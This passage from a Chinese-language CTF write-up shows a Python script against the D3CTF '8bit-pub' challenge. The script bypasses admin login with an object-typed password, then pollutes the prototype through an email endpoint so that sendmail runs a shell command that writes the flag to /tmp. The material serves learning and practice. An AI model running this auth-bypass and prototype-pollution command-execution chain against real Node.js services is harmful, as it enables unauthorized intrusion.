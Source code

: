 具体污染成什么…看[这里](https://www.cnblogs.com/chyingp/p/node-learning-guide-child_process.html)吧

```
 import requests

url = 'http://139f61ba6b.8bit-pub.d3ctf.io/'
session = requests.session()
log_headers = {
    'Content-Type': 'application/json'
}
log_data = '{"username":"admin","password":{"password":true}}'
log_res = session.post(url + 'user/signin', data=log_data, headers=log_headers)
print(log_res.text)
getflag_data = '{"to":"1142149972@qq.com","subject":"N0Tai1","text":"xxxx","constructor.prototype.path":"sh","constructor.prototype.sendmail":true,"constructor.prototype.args":["-c","/readflag>/tmp/flag"]}'
getflag_res = session.post(url+'admin/email',data=getflag_data,headers=log_headers)
print(getflag_res.text) 
```

然后配合包含就能读到flag

![在这里插入图片描述](img/747b16df0244a120518fba4decbae9ad.png)